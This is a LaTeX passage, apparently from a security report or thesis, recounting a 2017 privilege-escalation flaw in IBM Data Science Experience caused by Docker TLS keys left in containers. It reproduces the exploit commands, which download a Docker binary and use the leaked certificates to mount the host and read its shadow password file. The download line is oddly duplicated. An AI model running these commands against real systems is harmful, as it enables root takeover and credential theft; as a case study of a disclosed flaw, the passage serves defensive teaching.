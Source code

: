 \documentclass[a4paper,12pt]{article}
\begin{document}
One example of how a bad management of secrets could be fatal for an agency
comes from IBM. In 2017 a privilege escalation vulnerability was found inside
IBM Data Science Experience, a data analytics
product \cite{ibm_data_science_experience}. Such vulnerability was due to a wrong
configuration of the Docker containers that were running the service. IBM's
engineers left inside the containers Docker TLS keys, leaving root access across
the whole computer cluster and read/write access many terabytes of sensible
customer data. \par As stated by the report of the
vulnerability \cite{ibm_data_sciene_report}, an exploit of such threat was also
quite easy, needing only an access to to Internet and a web browser:
\begin{itemize}
  \item The attacker should just enter the service's web environment, accessing
  to its command line
  \item He should download and extract the Docker binary of the service, using
  the following commands: 
  \begin{lstlisting}[language=bash,breaklines]
    system("wget https://test.docker.com/builds/Linux/x86_64/docker-1.13.1-rc1.tgz")
    system("wget https://test.docker.com/builds/Linux/x86_64/docker-1.13.1-rc1.tgz")
  \end{lstlisting}
  \item Use the downloaded Docker binary with the existing certificates to
  achieve root access to the host mounted volume:
  \begin{lstlisting}[language=bash,breaklines]
    system("DOCKER_API_VERSION=1.22 ./docker/docker -H 172.17.0.1 \
              --tlscacert /certs/ca.pem --tlscert /certs/cert.pem \
              --tlskey /certs/key.pem \
              run -v /:/host debian cat /host//shadow")
  \end{lstlisting}
\end{itemize} 

\subsubsection{ARP Spoofing}
\end{document}
